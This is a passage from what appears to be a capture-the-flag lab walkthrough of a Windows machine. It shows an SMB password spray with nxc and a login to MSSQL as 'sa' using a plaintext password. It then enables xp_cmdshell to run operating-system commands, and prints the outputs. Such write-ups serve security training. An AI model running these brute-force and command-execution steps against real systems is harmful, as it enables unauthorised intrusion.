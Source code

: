 ```bash
nxc smb $target -u users.txt -p pass.txt
```

And we got a hit for the user oscar:&#x20;

<figure><img src="../.gitbook/assets/nxc brute-force.png" alt=""><figcaption></figcaption></figure>

Which I thought was useless at this point. But we'll see how this is a a key thing too reconstruct the attack for the foothold.

### MSSQL

With the sa user credentials we found, let's connect to the MSSQL server :

```bash
impacket-mssqlclient 'sa:MSSQLP@ssw0rd!@10.10.11.51'
```

```bash
SQL (sa  dbo@master)> select user_name()
      
---   
dbo   

SQL (sa  dbo@master)> select is_srvrolemember('sysadmin')
    
-   
1
SQL (sa  dbo@master)> SELECT name FROM master.sys.tables;
---------------------   
spt_fallback_db         

spt_fallback_dev        

spt_fallback_usg        

spt_monitor             

MSreplication_options 
```

This showed only system tables, nothing not ordinary so we should proceed further to xp\_cmdshell:

```bash
EXEC sp_configure 'show advanced options', 1 
RECONFIGURE;  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
EXEC xp_cmdshell 'whoami';
output           
--------------   
sequel\sql_svc   

NULL  
```
